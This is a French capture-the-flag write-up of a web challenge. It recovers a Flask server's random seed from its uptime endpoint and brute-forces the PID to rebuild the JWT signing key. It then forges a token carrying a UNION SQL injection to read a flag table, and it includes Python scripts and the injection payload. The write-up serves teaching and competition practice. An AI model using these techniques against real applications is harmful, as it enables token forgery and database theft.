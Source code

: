 # Your region's finest

**Web**

You’ve been informed that a website might be serving as a front for a large criminal network. Part of their revenue supposedly comes from selling cookies that can make you float like an airship… A rather tempting proposition. Their slogan, it seems, is: "Always wondered how to get the coolest and the highest quality products in your region ? Search no more, this new website allows you to do so !"

Fichiers : app.py

---

## Inspection du code source

Sur ce challenge, on a la source (!!) du code du serveur. On peut donc inspecter cette source pour trouver des éléments intéressants dedans.

Voici une liste des éléments notables du code source.

### random.seed()

![image](_attachements/Pasted_image_20250126200021.png)
La source du random du site est basée sur le moment où le serveur a été démarré ainsi que son PID. C'est une assez mauvaise source d'aléatoire. Si l'on découvre le moment ou le serveur a été démarré, on doit pouvoir reverse l'entièreté de l'aléatoire du site.

### Clé de chiffrement des JWT
![image](_attachements/Pasted_image_20250126200351.png)
La clé de chiffrement des JWT est basé sur la source d'aléatoire précédente. Si on arrive a la reverse, on doit pouvoir forger nos propres token.

### ORM
Dans le script, on voit la présence d'un ORM, qui empêche les SQL injection quand il est bien utilisé. Cependant, on voit qu'une requête a été laissée sans protection.
![image](_attachements/Pasted_image_20250126200653.png)

On voit qu'on peut injecter des informations dans la requête SQL à l'aide du champ favorite_product_id. En regardant légèrement plus haut, on voit que ce champ provient du JWT. Il faut donc que l'on fasse notre injection via un JWT qu'on aura forgé nous même.

### Timestamp de lancement du serveur
Enfin, la dernière brique se trouve dans la requête de healthcheck.
![image](_attachements/Pasted_image_20250126201009.png)
Cette requête nous permet de savoir depuis combien de temps le serveur est en ligne, et donc en soustrayant cette valeur au timestamp auquel on fait la requête, on peut avoir le timestamp de lancement du serveur.

### Prix des produits
Enfin, on peut voir que les prix des items sont générés aléatoirement à l'initialisation du serveur. Cela nous permettra de vérifier de notre seed d'aléatoire est cohérente et de nous épargner le fait de tester la clé des JWT.
![image](_attachements/Pasted_image_20250126201517.png)


**Nous avons désormais toutes les briques pour construire notre attaque.**

## L'attaque

Commençons par récupérer le timestamp de lancement du serveur. Pour cela, on écrit le script suivant

```python

import requests  
import time  
import random  
import math  
import string
import base64
  
result = []  
for _ in range(100):  
    timeStart = time.time()  
    url = "http://challenges.hackday.fr:58990/healthz"  
    response = requests.get(url).json()["uptime"]  
    result.append(math.floor(timeStart - response))  
baseTimestamp = min(result) - 30  
# on enlève 30s par sécurité, mieux vaut être trop tôt puisque l'on va  
# tester avec plusieurs PID et qu'ils s'additionnent simplement au  
# timestamp, ils vont donc compenser ce qu'on a enlevé  
```

Ensuite, on peut bruteforcer le PID avec le script suivant :
```python
for pid in range(4194304):  
    random.seed(baseTimestamp + pid)  
    useless = "".join(random.choice(string.printable) for _ in range(32))  
    KEY = "".join(random.choice(string.printable) for _ in range(32))  
    a = random.randrange(10, 100)  
    b = random.randrange(10, 100)  
    c = random.randrange(10, 100)  
    if a == 43 and b == 58 and c == 40:
	    # Ici, les valeurs des prix des 
        print(baseTimestamp, pid)  
        print(KEY)  
        print(str(base64.b64encode(bytes(KEY, "utf-8"))))  
        break
```

On obtiens les valeurs suivantes :
![image](_attachements/Pasted_image_20250126211220.png)

On va maintenant étudier la SQL injection : 
On dispose de la requête suivante.
![image](_attachements/Pasted_image_20250126212417.png)
On ajoute donc une partie finale pour obtenir cette requête.

```sql
SELECT * FROM product WHERE id = 1 AND 1=2 UNION SELECT id, flag as name, null, null, null, null FROM flag
```

On va ensuite pouvoir faire notre propre cookie avec https://jwt.io. On commence par charger la clé en base64.

On importe notre cookie :
![image](_attachements/Pasted_image_20250126212031.png)

On le modifie avec notre SQLi :
![image](_attachements/Pasted_image_20250126212149.png)

Il nous suffit ensuite de remettre notre cookie dans le navigateur, et d'aller sur la page `/favorite_product_info`

![image](_attachements/Pasted_image_20250126212749.png)

**Flag : HACKDAY{Th4t_s_S0m3_g000000000000d_qu4lity!}**

nhy.